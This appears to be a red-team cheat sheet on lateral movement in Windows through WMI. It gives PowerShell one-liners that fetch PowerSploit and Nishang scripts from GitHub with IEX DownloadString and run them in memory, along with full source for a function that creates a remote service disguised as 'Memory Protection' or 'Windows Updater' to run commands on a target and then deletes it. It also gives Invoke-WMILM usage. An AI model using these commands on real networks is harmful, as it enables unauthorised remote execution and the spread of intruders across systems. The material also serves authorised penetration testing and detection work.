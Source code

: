 # Scripts

## 01 - PowerSploit

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-WmiCommand.ps1')

PS C:\> Invoke-WmiCommand -ComputerName <IP> -Payload { <commands> } | Select-Object -ExpandProperty "PayloadOutput"
```

## 02 - Nishang

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellWmi.ps1')

PS C:\> Invoke-PowerShellWmi -ComputerName <IP> -Verbose -Payload "<commands>"
```

## 03 - Invoke-WMIServiceLateralMove

```powershell
function Invoke-WMIServiceLateralMove {
	Param (
        [parameter(Mandatory)][String]$ComputerName,
    	[parameter(Mandatory)][String]$Command,
        [String]$ServiceName = "MemProtectSvc",
        [String]$ServiceDescription = "Memory Protection"
	)

    $Command = "%COMSPEC% /C " + $Command

    Write-Host ("Creating Service {0} on {1}" -f $ServiceName, $ComputerName)
    $ret = Invoke-WmiMethod -ComputerName $ComputerName -Class win32_service -name create -ArgumentList @($true,$ServiceDescription,2,$null,$null,$ServiceName,$Command,$null,16,'Automatic',$null,$null)
    # ArgumentList MUST be (DesktopInteract, DisplayName, ErrorControl, LoadOrderGroup, LoadOrderGroupDependencies, 
    # Name, PathName, ServiceDependencies, ServiceType, StartMode, StartName, StartPassword)
    if ($ret.ReturnValue -ne 0) {
        Write-Host ("Service Creation Failed! Output:")
        Write-Output $ret 
    }
    Write-Host ("Starting Service {0} on {1}" -f $ServiceName, $ComputerName)
    $service = Get-WmiObject -ComputerName $ComputerName -Class Win32_Service -Filter "Name='$ServiceName'"
    $ret = $service.startservice() # this will block because the executable is not a real service

    Write-Host ("Deleting Service {0} on {1}" -f $ServiceName, $ComputerName)
    $ret = $service.StopService()
    $ret = $service.Delete()
    if ($ret.ReturnValue -ne 0) {
        Write-Host ("Service Deletion Failed! Manual cleanup required for {0}" -f $ServiceName)
        Write-Output $ret 
    }
	Write-Host "Done"
}
```

The syntax as it follows.

```
PS C:\> Invoke-WMIServiceLateralMove -ComputerName <IP> -Command "<commands>" -ServiceName UpdaterSVC -ServiceDescription "Windows Updater"
```

## 04 - Invoke-WMILM

```
PS C:\> Invoke-WMILM -Target <IP> -Type <Product | Service | Job | Task | Provider | DerivedProcess> -Protocol <DCOM | Wsman> -Name "<name>" -Command <command> [-CommandArgs "<arguments>"] -CleanUp [-Username <username> -Password <password>]
```

---
## References

- [Cybereason: Invoke-WMILM](https://github.com/Cybereason/Invoke-WMILM)

- [Ionize: Lateral Movement in an Environment with Attack Surface Reduction](https://www.ionize.com.au/post/lateral-movement-in-an-environment-with-attack-surface-reduction)